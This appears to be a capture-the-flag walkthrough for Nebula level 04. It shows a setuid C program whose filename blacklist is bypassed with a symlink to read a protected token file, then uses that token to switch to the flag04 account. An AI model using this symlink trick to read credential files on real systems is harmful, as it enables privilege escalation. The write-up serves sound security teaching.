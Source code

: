 ``` C
      exit(EXIT_FAILURE);
  }

  if(strstr(argv[1], "token") != NULL) {
      printf("You may not access '%s'\n", argv[1]);
      exit(EXIT_FAILURE);
  }

  fd = open(argv[1], O_RDONLY);
  if(fd == -1) {
      err(EXIT_FAILURE, "Unable to open %s", argv[1]);
  }

  rc = read(fd, buf, sizeof(buf));

  if(rc == -1) {
      err(EXIT_FAILURE, "Unable to read fd %d", fd);
  }

  write(1, buf, rc);
}
```

The directory ```/home/flag04/``` contains two files
``` bash
level04@nebula:/home/flag04$ ls -l
total 8
-rwsr-x--- 1 flag04 level04 7428 2011-11-20 21:52 flag04
-rw------- 1 flag04 flag04    37 2011-11-20 21:52 token
```
The program ```flag04``` outputs the contents of a file, unless the filename has a substring ```"token"``` in it.

Simply make a soft link to the file ```token``` and read from that.

``` bash
level04@nebula:/home/flag04$ ln -s /home/flag04/token /tmp/random
level04@nebula:/home/flag04$ cd /tmp
level04@nebula:/tmp$ ls -l
total 0
lrwxrwxrwx 1 level04 level04 18 2020-01-28 11:06 random -> /home/flag04/token
level04@nebula:/tmp$ /home/flag04/flag04 random
XXXXXXX-XXX-XXXXX-XXX-XXXXXXXX
```

The file ```token``` contains the password to the ```flag04``` account.

``` bash
level04@nebula:/tmp$ su flag04
Password:
sh-4.2$ whoami
flag04
sh-4.2$ getflag
You have successfully executed getflag on a target account
```
